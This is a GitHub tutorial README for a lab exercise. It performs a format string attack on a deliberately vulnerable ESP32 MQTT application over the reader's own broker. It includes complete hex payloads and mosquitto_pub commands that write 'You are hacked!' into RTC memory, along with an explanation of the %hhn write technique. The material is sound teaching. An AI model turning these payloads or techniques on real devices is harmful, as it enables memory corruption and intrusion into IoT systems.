 # ESP32 Remote Attack Tutorial

## Prerequisites

Install ESP-IDF version 4.4

Get VM

Set VM to Bridged Mode, then restart VM if needed.

Connect ESP32 to VM

Install mosquitto

```
sudo apt update && sudo apt install mosquitto mosquitto-clients
```

Confirm mosquitto is installed and running:

```
systemctl status mosquitto
```

```
netstat -tlpn | grep 1883
```

Finally, get the IP address of your VM:

```
ifconfig
```

This will list the network interfaces on your machine. You are interested in the Ethernet interface, typically named something like "eth0" or "ens33". The IP address of the interface is the address next to "inet".

## Build, Flash, and Test Projet

### Configure Project

Run menuconfig

```
idf.py menuconfig
```

Go to Example Configuration. This asks you for the URL of the MQTT broker to connect to. We want to connect to the mosquitto broker running on our VM, so set the value to your IP address. The structure of the field is mqtt://<IP address>. For example, in my case, it is mqtt://192.168.1.186.

Now go to Example Connection Configuration. This asks you to supply your WiFi connection information. Enter your SSID and password. There is no need to change any other settings. You can now exit and save the configuration.

### Build, Flash, and Monitor

Now build, flash, and monitor:

```
idf.py build flash monitor
```

If successful, you will see the ESP32 connect to your WiFi access point and subscribe to 2 MQTT topics: "/topic/qos0" and "/topic/qos1".

### Test Project

Without closing the ESP32 monitor, open a new termianl. In that new terminal, run the following command, which uses mosquitto_pub (a software for publishing MQTT messages) to publish a simple "Hello" message to the topic "/topic/qos0":

```
mosquitto_pub -h 0.0.0.0 -t /topic/qos0 -m "Hello"
```

## Inject Malicious String into Program
  
Now we will see how to inject data (in the form of a string) into a program through a well-known attack called **Format String Attack**. A format string attack can occur when certain functions do not format user input correctly. For example, `printf("%s, input)` is safe, while `printf(input)` is vulnerable to the attack. More details on format string attacks (for x86 architecture) are available here: https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
  
This MQTT application is vulnerable to the format string attack. See line 98 of the main file: https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/86b7400b642051719e6b2161f4da7cff6dcaf6b0/main/app_main.c#L98

  To perform the attack, there are two shell scripts in this project. The first script, `inject_payload.sh`, will inject the string "You are hacked!" into memory address 0x3ff80101. The address range 0x3ff80000 - 0x3ff81fff is reserved for RTC FAST memory, which is memory that persists through the ESP32's deep sleep mode. Since our application does not use deep sleep, this memory region is empty. The second script, `print_payload.sh`, will print the injected string.

  To execute the first script, run the following command in your second terminal:
  
  ```
  sh inject_payload.sh
  ```
  
  This command uses mosquitto_pub to publish the following payload (in binary) to the ESP32:
  
  ```
 0101f83f0201f83f0301f83f0401f83f0501f83f0601f83f0701f83f0801
f83f2001f83f2001f83f0b01f83f0c01f83f0d01f83f0e01f83f0f01f83f
1001f83f2532357825362468686e2532327825372468686e253236327825
382468686e253137317825392468686e25333231782531302468686e2531
37782531312468686e25323433782531322468686e253138377825313324
68686e25333238782531342468686e25323439782531352468686e253235
38782531362468686e2538782531372468686e2532353078253138246868
6e25323535782531392468686e25313839782532302468686e2532323378
2532312468686e0a
  ```
  
  You will see the ESP32 appear to print random memory addresses, like so:
  
  ![image](https://user-images.githubusercontent.com/11084018/164243528-33a45a36-f475-48de-b3e4-a814d7a23289.png)
  
  In reality, this is a side effect of carefully selecting which bytes to inject into memory. It will be explained later.
  
  To execute the second script, run the following command:
  
  ```
  sh print_payload.sh
  ```
  
  This command will use mosquitto_pub to publish the following payload (in binary) to the ESP32:
  
  ```
  0101f83f200d25362473200d0a
  ```
  
  In the ESP32 monitor, you should see the injected string print out to the console:
  
  ![image](https://user-images.githubusercontent.com/11084018/164245035-4f3e36c7-c9dc-4a2f-bf62-eeefe79d9b87.png)
  
  If you do not see the string, then simply run the script again. The RTC FAST region is accessed exclusively by the ESP32's PRO_CPU core, while the normal application is executed by the APP_CPU core. This means that executing `printf` and reading the string happen on different CPU cores, and sometimes the `printf` function will return before the string has been retrieved from memory.

  As a side note, if you are interested in displaying precisely what data is sent to the ESP32, you can convert either payload back to its binary form with the following commands:
  
  ```
  echo <payload> | xxd -p -r
  ```
  
  ![image](https://user-images.githubusercontent.com/11084018/164247098-3ddc4f81-67eb-419e-8ae8-5eb262e5e5b9.png)
  
  ![image](https://user-images.githubusercontent.com/11084018/164247413-8305880f-aa21-44e3-87d0-e59b6b85fdc4.png)


  
  ### Explanation of `inject_payload.sh`
  
  The `inject_payload.sh` script essentially has the following structure:
  
  ```
  <address 1>, i.e., 0x3ff80101
  <address 2>, i.e., 0x3ff80102
  ...
  <address 16>, i.e., 0x3ff80110
  <format string to inject 'Y' into address 1>
  <format string to inject 'o' into address 2>
  <format string to inject 'u' into address 3>
   ...
  <format string to inject '!' into address 15>
  <format string to inject '\0' into address 16>
  ```
  
  By placing the addresses at the beginning of the buffer, the format string attack will actually place those addresses onto the stack. The `<format string to inject...>` lines will reference the stack at different offsets, so by preemptively placing the addresses onto the stack, we can write to them. For example, `%6$hhn` will write data to the first address on the stack, `%7$hhn` will write to the second address, and so forth. There are methods to carefully control what data is written, which will be explained shortly. Now the rest of this section will explain the `inject_payload.sh` script line by line.

  Line 3 sets the mosquitto_pub command prefix, which prepares our script to send a message to the "/topic/qos0" topic:
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L3
  
  Lines 5 - 20 prepare the memory addresses we will need for the attack. We create addresses 0x3ff80101 - 0x3ff80110. Each address will correspond to a byte from our malicious string, including the null terminator. The address bytes are reversed since the ESP32 uses little endian addressing. We will use the format string attack to place these addresses onto the stack.
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L5-L20
  
  Line 23 combines all addresses together into a single variable:
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L23
  
  Lines 25 through 40 write the bytes into the addresses. 
  
  https://github.com/PBearson/ESP32_Remote_Attack_Tutorial/blob/605baf042e11948bfcca83b64565830069b863e3/inject_payload.sh#L25-L40
